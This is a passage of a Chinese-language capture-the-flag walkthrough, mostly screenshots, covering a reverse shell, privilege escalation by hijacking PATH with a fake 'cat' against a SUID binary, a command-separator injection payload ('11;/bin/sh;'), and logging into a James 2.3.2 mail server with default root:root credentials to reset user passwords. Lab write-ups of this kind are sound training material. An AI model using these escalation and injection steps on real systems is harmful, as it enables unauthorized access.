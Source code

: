 
![image.png](https://s2.loli.net/2025/05/12/fe4PlkgAEKcFUMd.png)

反弹shell成功
![image.png](https://s2.loli.net/2025/05/12/4fpeQVChynGscvw.png)

## 提权
登录到kane用户发现了一个文件
![image.png](https://s2.loli.net/2025/05/12/g2BvhfZwMFA5JIk.png)

这个文件有s权限 而且还有cat命令


## 环境变量劫持
```
echo '/bin/sh' > cat
chmod 777 cat
export PATH=./:$PATH
./msgmike
```
![image.png](https://s2.loli.net/2025/05/12/G3qUpM6stiYr5Nk.png)


在mike查看有个文件

![image.png](https://s2.loli.net/2025/05/12/a3uUzS81A6KNbZW.png)
## 使用分割符绕过并执行命令
```
11;/bin/sh;
```

![image.png](https://s2.loli.net/2025/05/12/yPZdC5TKGkE8OjJ.png)



![image.png](https://s2.loli.net/2025/05/12/hQGMrUjcT4pmdIE.png)

# solid state（完）
## nmap和目录爆破
有个很神奇的发现

![image.png](https://s2.loli.net/2025/04/30/2FpikjXSgJ6lNU9.png)

有个james 2.3.2 这是个关键点 在浏览器中能找到james 2.3.2的漏洞

是个弱口令登录 root:root

使用nc连接 就能连接进去

发现能找到很多用户 我们全部改成统一密码 
